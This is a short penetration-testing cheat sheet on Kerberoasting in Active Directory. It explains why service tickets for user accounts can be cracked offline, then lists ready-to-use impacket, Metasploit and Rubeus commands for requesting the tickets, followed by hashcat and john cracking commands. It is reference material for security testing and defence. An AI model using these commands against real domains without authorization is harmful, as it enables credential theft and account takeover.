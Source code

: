 # Kerberoasting

The goal of **Kerberoasting** is to harvest **TGS tickets for services that run on behalf of user accounts** in the AD, not computer accounts. Thus, **part** of these TGS **tickets are** **encrypted** with **keys** derived from user passwords. As a consequence, their credentials could be **cracked offline**.\
You can know that a **user account** is being used as a **service** because the property **"ServicePrincipalName"** is **not null**.

Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

**You need valid credentials inside the domain.**

```
msf> use auxiliary/gather/get_user_spns
impacket-GetUserSPNs <DOMAIN.local/username:password> -dc-ip 192.168.183.134 -request
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Rubeus

```
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user

hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
